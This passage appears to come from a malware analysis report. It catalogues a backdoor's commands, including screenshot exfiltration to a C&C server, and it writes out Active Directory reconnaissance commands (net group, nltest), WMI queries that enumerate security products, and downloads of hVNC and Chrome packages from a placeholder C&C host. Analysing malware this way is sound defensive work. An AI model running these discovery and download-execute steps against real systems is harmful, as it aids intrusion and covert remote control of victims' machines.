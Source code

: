 
deskscreen
Take a screenshot using Gdip.BitmapFromScreen and send it to the C&C server.


deskscreenon
Similar to deskscreen but take screenshots in a 15-second loop.


deskscreenoff
Stop the deskscreenon loop.


domain


Gather information about the Active Directory using the following commands:



cmd /c chcp 65001 && net group "domain admins" /domain
cmd /c chcp 65001 && net group "enterprise admins" /domain
cmd /c chcp 65001 && net group ""Domain Computers"" /domain
cmd /c chcp 65001 && nltest /dclist:
cmd /c chcp 65001 && nltest /DOMAIN_TRUSTS
cmd /c chcp 65001 && ipconfig /all
cmd /c chcp 65001 && systeminfo




hardware


Get victim’s host information using WMI queries:



Select * from Win32_OperatingSystem
SELECT * FROM Win32_LogicalDisk
SELECT * FROM Win32_Processor
Select * from Win32_OperatingSystem
SELECT * FROM Win32_VideoController
Select * from Win32_NetworkAdapterConfiguration WHERE IPEnabled = True
Select * from FirewallProduct
Select * from AntiSpywareProduct
Select * from AntiVirusProduct
SELECT * FROM Win32_Product
SELECT Caption,ExecutablePath,ProcessID FROM Win32_Process where ExecutablePath is not null

and send to the C&C server.



hvncon
Download and execute a custom hVNC (hidden VNC) application fromhttp://<C&C>/download?path=hvncslashhvncdotzip


hvncoff
Stop the hVNC by executing taskkill /f /im hvnc.exe.


installchrome
Download http://<C&C>/download?path=chromeslashchromedotzip, a legitimate copy of Google Chrome, and unpack it into %LocalAppData%\Google\‌Chrome\Application. This copy of Chrome is likely used by hVNC if the victim doesn’t have Chrome installed.
